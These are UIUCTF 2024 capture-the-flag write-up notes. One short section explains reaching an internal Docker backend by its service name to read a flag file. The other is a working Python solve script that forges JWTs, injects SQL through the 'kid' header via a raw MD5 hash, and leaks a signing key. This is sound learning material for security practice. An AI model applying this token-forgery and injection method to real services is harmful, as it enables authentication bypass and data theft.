

# UIUCTF writeups


# Log action:

https://siunam321.github.io/ctf/UIUCTF-2024/Web/Log-Action/

(HTML page also saves just incase site goes down)

Imp points:

If you have a docker service with a particuar name then putting that name in the host field of a url will resolve to that continer. i.e.

- <b> `docker <container-name> gets auto DNS mapped as http://<container-name>/` </b>
	So if a backend service is mounted like such: 
	
	
	
	we can see that the flag file (flag.txt) is at the back-end service and mounted the flag file from ./backend/flag.txt to /usr/share/nginx/html/flag.txt. 
	That being said, if we can somehow reach to the internal Nginx, we could get the flag at http://<back-end_IP>/flag.txt.
	This is because the default Nginx webroot directory is at /usr/share/nginx/html/.
	We can also get at http://backend/flag.txt because	the name of the service is the docker-compose if backend.
# Fare Evasion

Solve script:
```
import requests
import re
import jwt

url = "https://fare-evasion.chal.uiuc.tf/"

response = requests.get(url)
set_cookie = response.headers.get("Set-Cookie")
access_token = re.search(r'access_token=(.*?);', set_cookie).group(1)
decoded_token = jwt.decode(access_token, algorithms=["HS256"], options={"verify_signature": False})
decoded_token['type'] = 'conductor'

# sql inject with raw md5 hash
secret = "a_boring_passenger_signing_key_?"
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
headers = {"Cookie": f"access_token={encoded_token}"}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
conductor_key = re.search(r'secret: (.+)\n', msg).group(1)
# "conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e"
encoded_token = jwt.encode(decoded_token, conductor_key, algorithm="HS256", headers={"kid": "conductor_wkey"})
headers = {
    "Cookie": f"access_token={encoded_token}"
}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
```

